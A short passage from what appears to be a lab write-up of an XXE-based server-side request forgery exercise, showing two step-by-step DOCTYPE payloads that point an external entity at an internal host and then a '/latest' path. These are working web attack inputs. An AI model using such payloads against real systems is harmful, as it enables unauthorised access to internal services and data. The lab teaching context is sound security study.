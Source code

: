 **Step3:**

Add this payload
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "[http://internal.vulnerable-website.com/](http://internal.vulnerable-website.com/)"> ]>
```

And call it using `&xxe;`

<img src="images/image6.png" alt="third" width="500">

So we append latest to URL

New payload
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "[http://internal.vulnerable-website.com/latest](http://internal.vulnerable-website.com/latest)"> ]>
```


Now response

<img src="images/image7.png" alt="third" width="500">
